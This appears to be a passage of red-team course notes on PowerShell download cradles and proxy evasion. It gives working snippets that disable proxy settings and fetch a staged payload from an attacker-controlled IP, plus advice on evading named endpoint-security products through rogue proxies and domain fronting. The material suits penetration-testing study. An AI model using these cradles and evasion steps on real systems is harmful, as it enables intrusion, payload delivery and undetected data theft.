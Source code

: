 In modern network environments, ensuring secure and stealthy communication often requires navigating through or around Proxy servers. PowerShell provides flexibility to manage proxy settings dynamically, allowing for both direct internet access and proxy evasion techniques, which can be critical during red team engagements.

```powershell
# Create a WebClient object to manage web requests
$wc = new-object system.net.WebClient 

# Disable proxy settings to attempt direct connections
$wc.proxy = $null 

# Download script or payload directly
$wc.DownloadString("http://10.0.0.123/staged_payload.ps1")
```

While disabling proxy settings facilitates direct connections that may bypass certain network monitoring setups, but it's crucial to assess the network's edge firewall policies. In environments where all outgoing connections are required to pass through a proxy, this approach might result in blocked communications. Therefore, pentesters should be prepared to dynamically adjust the `WebClient` proxy settings to align with the environment's configuration and circumvent detection mechanisms effectively.

For enhanced evasion in environments protected by solutions like TrendMicro, RealVNC, SentinelOne Singularity, Crowdstrike Falcon, ... consider employing more sophisticated techniques such as:

- **Encrypted Channels**: Use HTTPS for all communications to obscure the data in transit and avoid content-based filtering.
- **Proxy Pivoting**: Instead of disabling the proxy, configure `WebClient` to use a rogue or compromised proxy server that you control, which can relay requests without scrutiny.
- **Domain Fronting**: Employ domain fronting techniques where possible to disguise the true destination of HTTPS requests by leveraging reputable, third-party service domains.

These methods increase the likelihood of maintaining access and exfiltrating data without detection, aligning with the objectives of advanced penetration testing and red team operations

### 3.7.2 Add the User-Agent header

Because `Net.WebClient` Powershell don't have a default "User-Agent" header, so manual set it in HTTPS request.

```powershell
# Create a WebClient object to manage web requests
$wc = new-object system.Net.WebClient 

# Add "User-Agent" header in HTTPS request
$wc.Headers.Add('User-Agent', "This is my agent, there is no one like it...")

# Download script or payload directly
$wc.DownloadString("http://10.0.0.123/staged_payload.ps1")
```

### 3.7.3 Give me a SYSTEM proxy

In this context, the application runs as SYSTEM. A PowerShell download cradle may fail to call back to C2 server.

# Wrapping Up

This module focuses on exploiting the human and discusses how to craft convincing pretexts. 

Introduction to Client-side attack via Microsoft Word (macro) + Powershell.

Execution of arbitrary Win32 API directly in memory, write a Simple Shellcode Runner in PowerShell and VBA.

.